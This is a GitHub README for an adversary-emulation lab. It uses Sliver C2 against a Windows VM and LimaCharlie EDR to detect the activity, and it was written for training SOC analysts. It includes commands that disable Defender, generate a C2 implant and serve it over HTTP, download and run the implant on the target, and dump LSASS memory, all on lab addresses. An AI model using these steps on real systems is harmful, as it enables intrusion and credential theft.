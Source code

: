 # LimaCharlie & Sliver C2: Adversary Emulation Lab

## Objective
This repository documents the adversary emulation lab using Sliver C2 for command-and-control attack simulation and LimaCharlie for endpoint detection and response. The goal is to simulate real-world attack scenarios, analyze telemetry data, and refine. 


The Detection Lab project aimed to establish a controlled environment for simulating and detecting cyber attacks. The primary focus was to ingest and analyze logs within a Security Information and Event Management (SIEM) system, generating test telemetry to mimic real-world attack scenarios. This hands-on experience was designed to deepen understanding of network security, attack patterns, and defensive strategies.

### Skills Learned

🔹 Endpoint Detection & Response (EDR)
- Deploying LimaCharlie Sensors for real-time telemetry collection.
- Integrating Sysmon with LimaCharlie to capture detailed process activity.
- Analyzing process telemetry to detect command-and-control (C2) activity.
- Building Detection & Response (D&R) rules to mitigate attacks.

🔹 Adversary Emulation & C2 Frameworks
- Setting up Sliver C2 to simulate real-world attack scenarios.
- Generating and deploying Sliver payloads for command execution.
- Interacting with active C2 sessions to mimic adversary behavior.
- Understanding detection evasion techniques used by Sliver.

🔹 Threat Hunting & Malware Analysis
- Examining process and file hashes to investigate suspicious binaries.
- Using VirusTotal to assess malware reputation and identify unknown threats.
- Dumping LSASS memory to simulate credential theft tactics.
- Filtering LimaCharlie telemetry for sensitive event detection.

🔹 Security Operations & Defensive Strategies
- Refining security detection logic for advanced threat detection.
- Investigating system behavior post-compromise for forensic insights.
- Applying MITRE ATT&CK mappings to real-world adversary techniques.




### Tools Used
🔹 Virtual Machines (VMs)
- Windows 10 (Target Machine) – Acts as the endpoint where Sliver C2 payloads are executed. LimaCharlie sensor is deployed here to capture telemetry.
- Kali Linux (Attacker Machine) – Used for launching Sliver C2, executing commands, and emulating adversary techniques.
- Ubuntu Server (Malware Storage) – Serves as the host for the malicious Sliver payloads, allowing downloads via an HTTP server for delivery to the Windows target.

🔹 LimaCharlie (EDR Platform)
A cloud-native endpoint detection & response (EDR) tool used to capture and analyze system telemetry. It provides:
- Real-time endpoint monitoring and security event logging.
- Detection & Response (D&R) rules for identifying adversary behaviors.
- Sysmon integration for enhanced process visibility.

🔹 Sliver C2 (Command & Control Framework)
An open-source command-and-control (C2) tool used to simulate real-world adversary techniques. Provides:
- Payload generation for remote access and execution.
- Session management to interact with compromised endpoints.
- Defensive tool awareness by highlighting detected security features.



## Steps

First thing we got to do is to remove security defense in Windows VM.
![image](https://github.com/user-attachments/assets/522aa5c2-c2f6-47f6-8298-5446112cf5c8)
![image](https://github.com/user-attachments/assets/dbf3fb49-1cbd-4e0e-986c-a8f1940a01fa)
![image](https://github.com/user-attachments/assets/fdee6963-0944-43e2-9838-a5c1abe6feff)


Some instances, the security settings will automatically turn on again, so we will ‘double disable’ it in gpedit.msc
(Computer configuration > Administrative Template > Windows Components > Microsoft Defender Antivirus)
![image](https://github.com/user-attachments/assets/cdcfb01e-7266-490f-b772-794580d5a60d)



Install Sysmon in Windows VM
-	Launch Administrative Powershell console 
-	Invoke-WebRequest -Uri https://download.systernals.com/files/Sysmon.zip -Outfile C:\Windows\Temp\Sysmon.zip 
-	Unzip Sysmon
-	Download SwiftonSecurity’s Sysmon config.
-	Invoke-WebRequest -Uri https://raw.githubuser.com/SwiftonSecurity/sysmon-config/master/sysmonconfig-export.xml -Outfile C:\Windows\Temp\Sysmon\sysmonconfig.xml
-	install Sysmon with Swift’s config
![image](https://github.com/user-attachments/assets/afe2d98a-898b-435a-baf3-cce9051807be)


Create organization in LimaCharlie (https://limacharlie.io/)
![image](https://github.com/user-attachments/assets/a7823c1b-a5a5-415b-b1f2-61f97550431d)

Add demo configuration : Extended Detection & Response Standard.

Add sensor. Follow the instruction in LimaCharlie Docs in telemetry sensor deployment
(https://docs.limacharlie.io/v1/docs/telemetry-sensor-deployment)
![image](https://github.com/user-attachments/assets/d4686476-6399-40a7-ad26-889a85327682)
![image](https://github.com/user-attachments/assets/2fd688a9-2dcf-49bb-a32a-d7db7f1d5426)
![image](https://github.com/user-attachments/assets/2b939926-b417-4df3-9140-6dccf88e33f7)
![image](https://github.com/user-attachments/assets/575a8aa6-f742-45ae-b3d5-ab28063de086)

Configure LimaCharlie to also ship the Sysmon event logs alongside its own EDR telemetry;
![image](https://github.com/user-attachments/assets/6e793633-8d4e-4465-894a-fde76fce9571)

![image](https://github.com/user-attachments/assets/faedc2b9-362c-4043-a80a-066ff7ab0b0c)


Setting up the attack: 
In Kali Linux, connect in Ubuntu server using SSH (ssh ‘user’@’ubuntu-server-IP’)

Then download the Sliver : wget https://github.com/BishopFox/sliver/releases/download/v1.5.34/sliver-server_linux -0 /usr/local/bin/sliver-server

Then make it executable : chmod +x /usr/local/bin/sliver-server

Also install mingw-w64 for additional capabilities : apt install -y mingw-w64
Launch sliver (sliver-server)
![image](https://github.com/user-attachments/assets/1847ef67-7a85-4b6b-8073-e66ff4839fd7)

Generate C2 payload : generate –http [Ubuntu server IP] –save /opt/sliver
![image](https://github.com/user-attachments/assets/86f3b718-f5e8-4d4d-8ede-64abeac8d593)

Setup a temporary server in Ubuntu server so the payload can be download by or target pc :
python3 -m http.server 80
Then switch to our Windows VM then launch administrative powershell :
IWR -Uri http://10.0.2.13/LOW_BAGGAGE.exe -Outfile C:\Users\vboxuser\Downloads\LOW_BAGGAGE.exe
![image](https://github.com/user-attachments/assets/068375e9-8f3b-48d7-bfcb-0b533b70ed6f)

Back to our (SSH)ubuntu server
Quit the python web server then relaunch the sliver-server, start http listener by typing ‘http’
![image](https://github.com/user-attachments/assets/43587b79-32a0-465f-aefc-99639eb26318)

Return to Windows VM then execute the C2 Payload using administrative powershell.
![image](https://github.com/user-attachments/assets/15d8eced-0fd9-4782-aa2d-8667b593b80a)
Verify by typing ‘sessions’
![image](https://github.com/user-attachments/assets/ccca4c27-7d32-4eb5-9f7d-d5b86cc50b6b)

Interact with C2 session : ‘use [session_id]
![image](https://github.com/user-attachments/assets/de63e25a-2c57-44c9-86e7-2c72ea213dff)

Get basic info: whoami,info

![image](https://github.com/user-attachments/assets/f31691f5-992d-4c0d-a32a-4c53e49ca3f5)

getprivs :

![image](https://github.com/user-attachments/assets/e56a8eba-3dfb-4096-80b4-ed654cb68ae2)

![image](https://github.com/user-attachments/assets/bacd162e-5a94-4360-a5c2-d9826b16d89a)

ps -T (sliver highlight the defensive tool as red and green as its own)
![image](https://github.com/user-attachments/assets/ed37bb45-62b7-48a5-beef-16ee45352e7b)


Go to LimaCharlie then check our sensor. Select the windows VM then go to process : 

![image](https://github.com/user-attachments/assets/0090cd77-b48a-4be1-8795-141ec01084d6)
![image](https://github.com/user-attachments/assets/94d49b43-c96e-4788-aecb-20b4b918c4a9)
![image](https://github.com/user-attachments/assets/8feefe4d-9451-4cf9-8ac8-b7c3db7c1721)

resources to learn more about windows processes and binaries threat actors use : 

https://www.sans.org/posters/hunt-evil/

https://lolbas-project.github.io/#


Go to file system of our windows machine in LimaCharlie to get the hash of file then inspect it to Virustotal.
![image](https://github.com/user-attachments/assets/31a37a86-5eb3-4c47-b449-81bfec0b325c)

**When you tried to check it to Virustotal. No results will found. 
But it doesn’t mean its innocent.
It’s just VirusTotal is never seen it before. This makes sense because we just generated the payload.
The important lesson for any analyst to learn : if you already suspect a file to be possible malware, but VirusTotal has never seen it before, trust your gut. This actually make a file even more suspicious because nearly everything  has been seen by VirusTotal, so the malware may be custom-crafter/targeted which ups the ante a bit.**


Next, lets dump the **lsass.exe** process from memory 

![image](https://github.com/user-attachments/assets/fcdb62d6-a7d1-482b-844e-d1300e2dfc19)

![image](https://github.com/user-attachments/assets/a3517011-f22c-4f91-beb3-5775ddfa09ec)


Go back to Timeline then filter for : “SENSITIVE_PROCESS_ACCESS”
![image](https://github.com/user-attachments/assets/07dc4bf9-05f8-413a-a2c2-779cfd03f577)


Then build a D&R rules from it. 
![image](https://github.com/user-attachments/assets/719bdde3-2a97-4374-8fbd-4dc78ef23451)

![image](https://github.com/user-attachments/assets/131deeb7-ca76-41e0-878a-fc769cf561e5)

Scroll to the bottom to test our D&R rule.
Paste the SENSITIVE_PROCESS_ACCESS code then click Test Event.
Save the rule.


![image](https://github.com/user-attachments/assets/d214a89a-277d-48d4-ad37-7179554ed140)

Try to dump the lsass.exe again using the same command to check if our rule is really working.

![image](https://github.com/user-attachments/assets/7e6780ad-4b1b-462a-839b-d36020855ab7)

![image](https://github.com/user-attachments/assets/3322d89e-b917-4468-8b68-33ccc7276477)



Special thanks to Eric Capuano. This is based on his blog “So you want to be a SOC Analyst?”
Also “Simply Cyber – Gerald Auger phD” youtube channel for making an updated walkthrough for this lab










